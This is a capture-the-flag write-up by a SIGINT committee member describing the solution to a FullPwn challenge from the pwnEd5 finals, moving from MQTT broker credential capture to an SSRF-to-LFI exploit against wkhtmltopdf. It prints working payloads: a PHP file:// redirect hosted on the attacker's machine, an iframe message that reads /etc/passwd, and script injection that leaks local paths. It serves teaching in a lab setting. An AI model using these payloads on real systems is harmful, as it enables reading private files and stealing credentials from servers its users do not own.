## Zzzzzzz : pwnEd5 FullPwn Challenge

[**pwnEd5**](https://pwned.sigint.mx/) doubles down as a cybersec conference and a CTF competition for UK-based universities, hosted and organized by [**SIGINT**](https://sigint.mx/), the Cyber-Security Society at the University of Edinburgh. As a diligent committee member of **SIGINT**, some of the responsibility falls onto me to churn out good CTF challenges that feature in our events.

The **pwnEd5 CTF competition** is by far the biggest CTF event organized by SIGINT and consists of an online qualifying round (open for teams across any UK university), as well as in-person pwnEd Finals, where the seven best qualifying teams compete for the grand prize. This post serves as a write-up for the FullPwn challenge I designed, which was featured in the pwnEd5 finals.

The challenge is called **Zzzzzzzzzzzzzzzzzz** (for reasons that may become clearer towards the end of this writeup) and is inspired by one of my university projects, which involved the development of an IoT system. I must say that I had a lot of fun creating this challenge, and even more fun interacting with the competitors who decided to take it on. I am also working to get it public on the TryHackMe platform, so that more people can enjoy it.

Now enough chitchat, let’s get into the technical stuff…

## The WriteUp

### Web Flag

As per usual, after confirming connectivity with ping, an nmap scan quickly follows suit:

```
nmap -p- T5 10.10.39.154
```



Three exposed ports are found **\[22**,**80** and **1883\]**. The former two are well known ports of ssh/http, while the latter is an MQTT port. Message Queuing Telemetry Transport protocol is used extensively in IoT devices and works through middleman servers called Brokers. MQTT Brokers essentially facilitate data transfer between subscribers and publishers.

They do this through Topics, which act as a form of addressing for the messages. When a device (publisher) sends data, it publishes the data to a specific topic on the broker. Other devices (subscribers) that are interested in this data can subscribe to the corresponding topic to receive the messages. The broker ensures that the messages published to a topic are delivered to all subscribers of that topic. The following diagram provides a great high level overview of this protocol.



We can reveal further information through a more thorough nmap script and version scan:

```
nmap -sVC -p 22,80,1883 10.10.39.154
```



The second nmap scan confirms that port 1883 is an MQTT broker and also reveals further juicy details. Namely, this broker is protected by authentication, the box is running Ubuntu, and the webserver is hosted on Apache. We can confirm that the broker requires authentication through an arbitrary publish request using mosquitto_pub:

```
mosquitto_pub -h 10.10.39.154 -t randomTopic -m randomMessage
```



Moving on, lets examine the HTTP port first, as it offers the biggest attack surface of the three.



The default webpage serves a static page which describes an IoT product called **drool.** More interestingly, it leaks a domain name, that of **drool.sigint*.*** We can therefore update the /etc/hosts file accordingly:



If we revisit the webserver, this time under the drool.sigint domain, we get the same page. However, knowledge of the domain name grants us the information necessary to conduct vhost fuzzing. To achieve this we can use [ffuf](https://github.com/ffuf/ffuf):

```
ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -u http://drool.sigint -H "Host: FUZZ.drool.sigint" -fs 1545
```



As you can see, the **notes.drool.sigint** hostname returned a page of non-default size (as specified by the **-fs** **1545** filter), indicating a different webpage. This vhost appears to be a simple note-taking application of very limited functionality. Moreover, visiting the host redirects us to a curious endpoint:

```
curl http://notes.drool.sigint
```





The endpoint in question looks quite enticing. While to the untrained eye it may look like a bunch of gibberish, to the battle hardened cybersec enjoyer it stands out as a hex string. We can confirm our suspicions through CyberChef.



The endpoint is indeed hex encoded, and it appears that the resultant string closely resembles an MD5 hash. We can attempt to crack it to reveal the following:



The number 1 matches up to the date: 1st of February.

Perhaps the endpoints map to the Hexed MD5 hash of the respective day of the month? To test this hypothesis we can develop a simple python script, which will construct potential endpoints (1 to 30+) and then query for them using the Requests library. The below script serves this very purpose:

```
import requests
import hashlib


def computeMD5hash(my_string):
    m = hashlib.md5()
    m.update(my_string.encode('utf-8'))
    return m.hexdigest()

def string_to_hex(text):
    text_bytes = text.encode('utf-8')
    hex_representation = text_bytes.hex()
    return hex_representation

url = "http://notes.drool.sigint"

for i in range(60):
 endpoint = f"{url}/{string_to_hex(computeMD5hash(str(i)))}"

 req = requests.get(url=endpoint)

 if("Error" not in req.text):
  print(f"Notes in endpoint {endpoint}")
```

We can then run this script and record the following outcome:



Where the ultimate endpoint reveals the first flag of the challenge.



### User Flag

Lets continue to examine the two other endpoints.



The first of the two features a note which describes a new virtual host, that of **testing_pub.drool.sigint.** The vhost is described as a publisher application, which matches up with the overall theme of this box.



Navigating to **testing_pub.drool.sigint** we see the above. It appears that we can publish a custom MQTT message to an IP Address/broker of our choice. We can attempt to publish a random message to the MQTT broker on the target:



And we see from below that this was successful. We also identify the topic this was published to, **testingTopic.**



While we do not have any influence over the topic this message gets published to, we do control the target MQTT broker ip address. Now, the MQTT broker requires credentials in order to allow publishers/subscribers to bind to it. Therefore, we can can direct an arbitray publish request to our attacking machine, and catch the authentication request using netcat. If the publisher is using credentials to bind, we may be able to acquire them.

First, we spin up a netcat listener on the MQTT broker port:

```
nc -lvnp 1883
```

Then we trigger a request for our attacking IP:



Now this request should hang, and viewing the listener should yield the following:



We see how the publisher application is trying to authenticate to the broker using the following credentials:

```
broker:Y6zZ3e49scuqAP
```

If these credentials are correct, a simple publish command should return no error/output.

```
mosquitto_pub -h 10.10.39.154 -t randomTopic -m randomMessage -u broker -P Y6zZ3e49scuqAP
```



However, even with valid credentials, we cannot do much. We have no knowledge of any topics or any potential programs that subscribe to them.

Enter the next note endpoint:



The other endpoint describes a subscriber program and the functionality it provides. It seems that this program subscribes to three MQTT topics, two of which appear quite interesting. **receiveSensorReadings** writes messages published to this topic to a local file. **exportPDF** then exports the aforementioned local file to a pdf file. As such, we effectively have control of the content of the exported pdf file. We also have the means to receive that pdf file, through **receivePDF**.

We can go ahead and test this functionality through the following sequence of commands:

```
#first we publish something to the receiveSensorReadings topic
mosquitto_pub -h 10.10.39.154 -t receiveSensorReadings -m "hello, does this work?" -u broker -P Y6zZ3e49scuqAP

#the above message should be written to a local file
#we now need to subscribe to receivePDF
mosquitto_sub -h 10.10.39.154 -t receivePDF -u broker -P Y6zZ3e49scuqAP

#finally, in another terminal, trigger the exporting of the PDF
mosquitto_pub -h 10.10.39.154 -t exportPDF -m "export" -u broker -P Y6zZ3e49scuqAP
```

If the above is done correctly, our subscriber should receive a large block of base64 text:



We can save it to a local file, base64 decode it and write it to a pdf file:

```
cat sub64.txt | base64 -d > output.pdf
```

Once we open the above pdf, we can see the message we published.



However, how exactly is this PDF being generated? What library is it using? To assess this, we can use the exiftool and pdfinfo utilities. If we do so, we can determine that the **wkhtmltopdf** program is being used to convert the local file to the pdf we have before us. Note the version -\> **0.12.6.1**.

```
exiftool output.pdf
pdfinfo output.pdf
```



A quick google search will tell us that this version is vulnerable to an [SSRF](https://exploit-notes.hdks.org/exploit/web/security-risk/wkhtmltopdf-ssrf/) [attack](https://www.exploit-db.com/exploits/51039). As specified by the first link, we can chain this SSRF and leverage it to an LFI vulnerability. To achieve this we must create the following file and host it on our attacking machine, via a simple HTTP server:

```
echo "<?php header('location:file://'.$_REQUEST['x']); ?>" > exploit.php
sudo php -S 0.0.0.0:8000
```



Then, we can proceed by publishing a malicious iframe message which points to our above webserver/file and passes any arbitray file as parameter.

```
#message = <iframe src=http://ATTACK_IP:8000/exploit.php?x=FILEPATH width=1000px height=1000px></iframe>
mosquitto_pub -h 10.10.39.154 -t receiveSensorReadings -m "<iframe src=http://10.10.24.158:8000/exploit.php?x=/etc/passwd width=1000px height=1000px></iframe>" -u broker -P Y6zZ3e49scuqAP
```

Once published to the receiveSensorReadings topic, we can trigger the pdf conversion and then catch it on our subscriber. This is the same exact procedure as before, with the exception that we should get a hit on our webserver:



We can now copy the even larger chunk of received base64 text, decode it and open it up as a pdf to reveal the contents of the **/etc/passwd** file!



We have now effectively leveraged SSRF to achieve LFI. Typically, a good strategy when identifying an LFI is to attempt to leak the source code responsible for it. This would by great because we would gain a much better understanding of the vulnerability and determine how else we may abuse it.

Now, we can leverage a great JavaScript property that will tell us the exact location of the document being converted. Ofcourse I am talking about ***window.location.***

The [window.location](https://developer.mozilla.org/en-US/docs/Web/API/Window/location) property is used to store the current location of the JavaScript context. Considering how the file which handles the pdf conversion resides locally \[on the targets filesystem\], this property will display the local path on the server.

As such, we can simply leak the filepath using:

```
<script>document.write(window.location)</script>
```

If we pass the above as our message, and follow all the established steps, we would get a valid PDF that leaks the webroot:



The **/app** webroot is commonly associated with Flask applications. These applications by default have their main file written to **/app/app.py.** Therefore, we can try leaking this file next:



The file actually exists, and we successfully recover the source code. We can even see the location of the vulnerable code:



The **— enable-local-file-access** is a considerable misconfiguration, as without it, we would not have been able to include local files.

